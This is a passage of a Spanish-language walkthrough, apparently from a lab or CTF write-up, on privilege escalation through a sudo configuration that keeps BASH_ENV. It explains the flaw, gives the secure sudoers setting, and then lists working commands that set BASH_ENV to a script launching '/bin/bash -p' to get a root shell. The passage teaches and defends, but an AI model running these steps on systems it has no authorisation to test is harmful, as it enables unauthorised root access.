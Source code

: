 **Comportamiento:**

- Se evalúa cada vez que Bash se invoca en modo no-interactivo
- Se ejecuta antes que cualquier otro comando del script
- Hereda los privilegios del proceso que invoca Bash

### 2. Configuración Sudo Vulnerable

```
env_keep+="ENV BASH_ENV"
```

**Problema:** Esta directiva instruye a `sudo` a preservar la variable `BASH_ENV` del entorno del usuario, en lugar de limpiarla por seguridad.

**Configuración segura sería:**

```
env_reset
```

Sin excepciones para variables peligrosas.

## Vector de Ataque

### Prerequisitos

1. Capacidad de ejecutar un comando via `sudo`
2. Configuración `env_keep` que incluya `BASH_ENV`
3. El comando ejecutado debe invocar Bash directa o indirectamente

### Metodología de Explotación

**Paso 1: Crear payload malicioso**

bash

```bash
echo '/bin/bash -p' > /tmp/payload.sh
chmod +x /tmp/payload.sh
```

**Paso 2: Configurar variable de entorno**

bash

```bash
export BASH_ENV=/tmp/payload.sh
```

**Paso 3: Ejecutar comando privilegiado**

bash

```bash
sudo /usr/bin/systeminfo
```

### Mecanismo Técnico

